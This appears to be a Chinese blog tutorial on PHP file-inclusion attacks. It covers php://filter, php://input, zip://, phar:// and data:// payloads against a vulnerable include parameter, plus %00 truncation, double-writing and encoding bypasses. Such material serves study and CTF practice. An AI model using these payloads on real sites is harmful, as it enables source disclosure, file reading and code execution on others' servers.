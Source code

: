 ```yaml
---
layout:     post
title:      从filter到pchar
subtitle:   filter just to use and decode!
date:       2025-04-15
author:     sword Reforge
header-img: img/post-bg-coffee.jpg
catalog: 	  true
tags:
    - 知识
---
```




echo file_get_contents("php://filter/read=convert.base64-encode|convert.base64-encode/resource=data://text/plain,<?php phpinfo();?>");

**file://** （访问本地文件系统）
 **php://** （访问各个输入/输出流）
 **zip://** （压缩流）
 **data://** （数据）
 **phar://** （PHP归档）

1、php://

php://filter（用于读取源码）

如:

 

php://filter/read=convert.base64-encode/resource=1.php（1.php为文件名）

 

php://input（用于执行php代码，需要post请求提交数据）

前提条件：allow_url_fopen=on

 

2、file://

file://[文件的绝对路径与文件名]

如：

 

file://D:/flag.txt

 

3、zip://

zip://[压缩文件绝对路径]#[压缩文件里的子文件名]

如：

把文件1.php 解压为 1.zip ，那压缩文件 1.zip 里的子文件就是 1.php

 

index.php?file=zip://D:/1.zip%231.php （%23是‘#’的 url 编码）

 

4、phar://

phar://[压缩文件绝对路径] [压缩文件里的子文件名]

如：

把文件1.php 解压为1.zip ，那压缩文件 1.zip 里的子文件就是 1.php

 

index.php?file=phar://D:/1.zip/1.php

 

5、data://

前提条件：php<5.3 ，include=on

data://text/plain;base64,xxx（base64编码后的数据）

如：

 

index.php?file=data://text/plain;base64, PD9waHAgcGhwaW5mbygpPz4=

 

（ ‘PD9waHAgcGhwaW5mbygpPz4=’是‘ <?php phpinfo()?>’的base64编码）

 

网上有一张总结图片：

 

文件包含绕过

1、%00截断

有前提条件：

PHP版本小于5.3（大于等于5.3的PHP版本已经修复了这个问题）

PHP的magic_quotes_gpc = off

 

%00截断有点像是注释符，把程序终止，后面的字符就相当于没有了。

如：

 

<?php

  $file = $_GET['file'] . '.php';

  include($file);

  ……

?>



这里的文件包含限制了包含的文件为 .php ，而包含的文件是 .txt 格式。

那就可以使用%00截断：?file.txt%00

 

2、双写绕过

有一些字符会被过滤掉，那就使用双写绕过。

就像sql注入里的双写绕过，如果过滤了union，就可以写出uniunionon，能把中间的union过滤掉。

这里如果过滤的 “…/”，那就可以写出“…/./”，中间的“…/”会被过滤掉。

 

3、编码绕过

比如会对“…/”进行过滤，那就对“…/”进行编码后再使用

“…/”的 url 编码：“…%2F”

